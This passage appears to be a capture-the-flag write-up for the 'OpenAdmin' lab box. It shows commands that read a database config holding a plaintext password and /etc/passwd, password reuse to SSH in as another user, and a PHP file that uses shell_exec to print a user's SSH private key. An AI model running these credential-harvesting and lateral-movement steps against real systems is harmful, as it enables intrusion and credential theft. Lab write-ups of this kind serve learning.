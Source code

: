```bash
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
$ ls local/config
database_settings.inc.php
motd.txt.example
run_installer
$ cat /local/config/database_settings.inc.php
$ cat local/config/database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

Reading this file we find a password but we cant tell for what user its for.

We use ls to list the contents of the directories as we cannot use `cd` in the restricted shell.

We read the /etc/passwd file to get a list of users and we find that there is a user called `jimmy` on the box.

We ssh as jimmy into the box \| `ssh jimmy@10.10.10.171` and use the password `n1nj4W4rri0R!`

We then go to enumerate folders and files and after a while we come accross a `main.php` file in `/var/www/internal`:

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
